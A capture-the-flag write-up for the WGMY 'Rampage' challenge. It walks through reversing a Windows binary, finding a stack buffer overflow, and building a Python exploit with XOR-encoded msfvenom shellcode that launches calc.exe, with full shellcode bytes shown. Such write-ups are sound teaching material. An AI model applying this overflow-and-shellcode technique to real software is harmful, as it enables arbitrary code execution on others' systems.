


```
WGMY Fortnight Challenge #0203:  Rampage

can you pop out the calc?

Download here:
--------------
https://drive.google.com/file/d/1QOHgxqsSnFzOx1t9wrxQnolrTbYxpuik/view?usp=sharing

File Info:
-----------
rampage.exe
SHA256: BAFECFF4382AEFA927ECBC43BC9DEF8301669FD2A3B442A31B71F1DC4BFFB989
7z password: wgmy

Instruction:
------------

Figure out what the binary wants, find the vulnerability, and develop a local exploit
which will pop out calc.exe
```
# Testing
First, I run `file` command on the `rampage.exe`:
```bash
file rampage.exe 
rampage.exe: PE32 executable (console) Intel 80386, for MS Windows
```
Looks like is a 32-bit program

Next, I test run the `rampage.exe` in Windows 10:
```
.\rampage.exe

Error opening file `buf`
```
Looks like it require a `buf` file, try create it:
```bash
echo aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa > buf
```
Run it again:
```
.\rampage.exe

Current PID: 5412

Good luck...
```
Nothing happend.

Also tried running `strings rampage.exe` but nothing interesting:
```
abcdefghijklmnopqrstuvwxyz
ABCDEFGHIJKLMNOPQRSTUVWXYZ
Good luck...
Current PID: %d
Error opening file `buf`
<?xml version='1.0' encoding='UTF-8' standalone='yes'?>
<assembly xmlns='urn:schemas-microsoft-com:asm.v1' manifestVersion='1.0'>
  <trustInfo xmlns="urn:schemas-microsoft-com:asm.v3">
    <security>
      <requestedPrivileges>
        <requestedExecutionLevel level='asInvoker' uiAccess='false' />
      </requestedPrivileges>
    </security>
  </trustInfo>
</assembly>
```
# Reverse Engineering
Lets try to decompile it with **Ghidra**!

In the `entry` function can find the `main` function:
```c
int entry(void)

{
	...
	...
	...
      FUN_00405960();
      FUN_00405e1f();
      FUN_00405e19();
      _Code = FUN_00401040(); // <- This is the main function
      uVar3 = FUN_004017c8();
    ...
    ...
    ...
}
```
Decompiled main function (*Note: I changed the code to more readable*):
```c
int main(void)
{
  FILE *_File;		
  uint _MaxCount;
  uint counter;
  byte buffer [12]; // This may cause buffer overflow
  
  _File = _fopen("buf","rb");       // Read the content of buf file
  if (_File != NULL) {              // If the file is found
    _fseek(_File,0,SEEK_END);       // Point to the end of file
    _MaxCount = _ftell(_File);      // Calculate the total bytes in the file
    _fseek(_File,0,SEEK_SET);       // Point to the beginning of the file
    printf("\n");
    printf("Current PID: %d\n",GetCurrentProcessId()); // Print current process id
    printf("\n");
    _fgets(buffer,_MaxCount,_File);	
                                        // Put the content of file in the buffer
                                        // It did not limit the number of bytes 
                                        // put in the buffer, means it will cause
                                        // buffer overflow 
    counter = 0;							
    if (_MaxCount != 0) {					
      do {
        buffer[counter] = buffer[counter] ^ 0xcc; 
                                        // Each byte in buffer will be XORed with 0xCC
        counter++;												
      } while (counter < _MaxCount);
    }
    printf("Good luck...\n");
    return 0;
  }
  printf("\nError opening file `buf`\n");
  return 1;
}
```
# Analyse
Confirmed there is a **Buffer Overflow vulnerability**, lets try to exploit it!

I used [Immunity Debugger](https://www.immunityinc.com/products/debugger/) in Windows to debug it


Run it by pressing the play button:


Notice the program crashed and EIP (Instruction Pointer) become `ADADADAD`
Remember the buf is many `a`'s and ASCII value of `a` is 0x61

But the program got XORing `0xCC` with the buffer, lets try to XOR `AD` and `61`
```python
>>> hex(0xAD ^ 0x61)
'0xcc'
```

Yes correct! Now need to determine the offset to the **overwrite the EIP**

Since the buffer is 12 bytes, lets try with 16 bytes of `a` first:


Nothing happend, the program terminated successfully

Next try with 20 bytes of `a`:


It crased! Means we overwritten the EIP! 

But the EIP now is `CCADADAD`, so the `CC` previously is NULL byte (CC ^ CC = 0)

The stack in the program:
```
0019FF10   0041B8B0  °¸A.  ASCII "Good luck..."
0019FF14   006B5320   Sk.
0019FF18   006B6610  fk.
0019FF1C   ADADADAD  ­­­­
0019FF20   ADADADAD  ­­­­
0019FF24   ADADADAD  ­­­­
0019FF28   ADADADAD  ­­­­
0019FF2C   CCADADAD  ­­­Ì			<- EIP
0019FF30   00000001  ...
```
Notice we enter 20 bytes but the stack there is only 19 `a` and a NULL byte

According to the man page of `fgets`:
```
fgets() reads in at most one less than size characters from stream and stores them into the buffer pointed to by s.
Reading stops after an EOF or a newline. 
If a newline is read, it is stored into the buffer. 
A terminating null byte '\0' is stored after the last character in the buffer.
``` 
Meaning the `fgets` function may delete a character and add a NULL byte at the end

Next try with `16*a`, `4*b` and `c`. If not mistaken the EIP should be `AEAEAEAE` (0xCC ^ 0x62 (b in ASCII) = 0xAE)


Yes we successfully control the EIP! Now need to find an address to execute!

First, we need to check the protection of the program (Buffer Overflow Prevention)

We can use `mona` command inside the debugger, by typing `!mona mod` to list the properties:



Notice the main program `rampage.exe` does not enable `ASLR` (Ramdomize stack address) and `NXCompat` (Disallow to execute code in stack)

So the stack address is always the same and shellcode is executable on the stack

# Exploit
Now lets try to execute shellcode on stack!

Create a python script to generate the `buf` file:
```py
address = "0019FF30"                # We place the shellcode at 0x0019FF30
address = address.decode("hex")
eip = ''
for a in address:
	eip = chr(ord(a) ^ 0xcc) + eip  # XOR with 0xCC and append inversely
                                    # Because of little-endian in binary

open("buf",'w').write("a"*16 + eip + "b")   # The "b" will become 0xCC
                                            # According to https://en.wikipedia.org/wiki/INT_(x86_instruction)
                                            # 0xCC in machine code is mean breakpoint 
                                            # so it will stop executing when it 
                                            # execute this address (0x0019FF30) 
```

Run it using debugger:



Notice that I successfully trigged a breakpoint! (At 0019FF30)

Now we just need to replace the `b` with shellcode to execute `calc.exe`

I using `msfvenom` in Kali Linux to generate the shellcode:
```bash
msfvenom -p windows/exec CMD=calc.exe -a x86 -b '\xC6' -f python
# x86 means is 32-bit program, the '\xC6' is to filter the 0xC6 character 
# Because fgets will auto terminate when it sees \n (0x0A ^ 0xCC = 0xC6)
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 220 (iteration=0)
x86/shikata_ga_nai chosen with final size 220
Payload size: 220 bytes
Final size of python file: 1078 bytes
buf =  b""
buf += b"\xdb\xcd\xb8\xaf\x5b\xd2\x79\xd9\x74\x24\xf4\x5b\x33"
buf += b"\xc9\xb1\x31\x31\x43\x18\x83\xeb\xfc\x03\x43\xbb\xb9"
buf += b"\x27\x85\x2b\xbf\xc8\x76\xab\xa0\x41\x93\x9a\xe0\x36"
buf += b"\xd7\x8c\xd0\x3d\xb5\x20\x9a\x10\x2e\xb3\xee\xbc\x41"
buf += b"\x74\x44\x9b\x6c\x85\xf5\xdf\xef\x05\x04\x0c\xd0\x34"
buf += b"\xc7\x41\x11\x71\x3a\xab\x43\x2a\x30\x1e\x74\x5f\x0c"
buf += b"\xa3\xff\x13\x80\xa3\x1c\xe3\xa3\x82\xb2\x78\xfa\x04"
buf += b"\x34\xad\x76\x0d\x2e\xb2\xb3\xc7\xc5\x00\x4f\xd6\x0f"
buf += b"\x59\xb0\x75\x6e\x56\x43\x87\xb6\x50\xbc\xf2\xce\xa3"
buf += b"\x41\x05\x15\xde\x9d\x80\x8e\x78\x55\x32\x6b\x79\xba"
buf += b"\xa5\xf8\x75\x77\xa1\xa7\x99\x86\x66\xdc\xa5\x03\x89"
buf += b"\x33\x2c\x57\xae\x97\x75\x03\xcf\x8e\xd3\xe2\xf0\xd1"
buf += b"\xbc\x5b\x55\x99\x50\x8f\xe4\xc0\x3e\x4e\x7a\x7f\x0c"
buf += b"\x50\x84\x80\x20\x39\xb5\x0b\xaf\x3e\x4a\xde\x94\xb1"
buf += b"\x00\x43\xbc\x59\xcd\x11\xfd\x07\xee\xcf\xc1\x31\x6d"
buf += b"\xfa\xb9\xc5\x6d\x8f\xbc\x82\x29\x63\xcc\x9b\xdf\x83"
buf += b"\x63\x9b\xf5\xe7\xe2\x0f\x95\xc9\x81\xb7\x3c\x16"
```
Update the python code:
```python
address = "0019FF30"
address = address.decode("hex")
eip = ''
for a in address:
	eip = chr(ord(a) ^ 0xcc) + eip

buf =  b""
...
...
...
shellcode = ''
for b in buf:
	shellcode += chr(ord(b) ^ 0xcc) # The shellcode also need to XOR 0xCC
open("buf",'w').write("a"*16 + eip + shellcode + "\n")
```

Run it on debugger again:


Notice there is an error message: `Access violation when writing to [001A0000]`

And notice the shellcode is overwritting the stack boundary:
```
0019FF28   61616161  aaaa
0019FF2C   CCD533FC  ü3ÕÌ <- EIP
0019FF30   AFB8CDDB  Û͸¯ <- Shellcode
...
...
0019FFF8   632982BC  ¼‚)c
0019FFFC   83DF9BCC  ̛߃ <- End of Stack
```
So I need to reduce the shellcode size to less than 208 bytes (0x1A0000 - 0x19FF30 = 208)

I can add `--smallest` parameter to the command to get the smallest shellcode:
```bash
msfvenom -p windows/exec CMD=calc.exe -a x86 -b '\xC6' -f python --smallest
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
...
generic/none chosen with final size 193
Payload size: 193 bytes
Final size of python file: 948 bytes
buf =  b""
buf += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
buf += b"\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
buf += b"\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
buf += b"\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
buf += b"\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
buf += b"\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
buf += b"\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
buf += b"\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
buf += b"\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
buf += b"\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
buf += b"\x5f\x5a\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00"
buf += b"\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xf0\xb5"
buf += b"\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a"
buf += b"\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53"
buf += b"\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00"
```
There are only 193 bytes, so it can fit in the stack boundary!

Update the script and run it on debugger:


It successfully execute `calc.exe` (Calculator)!!

# Solution
Using Buffer Overflow vulnerability to execute shellcode that will pop out `calc.exe`.

1. Use this [Python script](solve.py) to generate the [buf](buf) file (In the same directory as rampage.exe).

2. Running `rampage.exe` will pop out `calc.exe`.

Test run the program in **Windows 10 64-bit**:
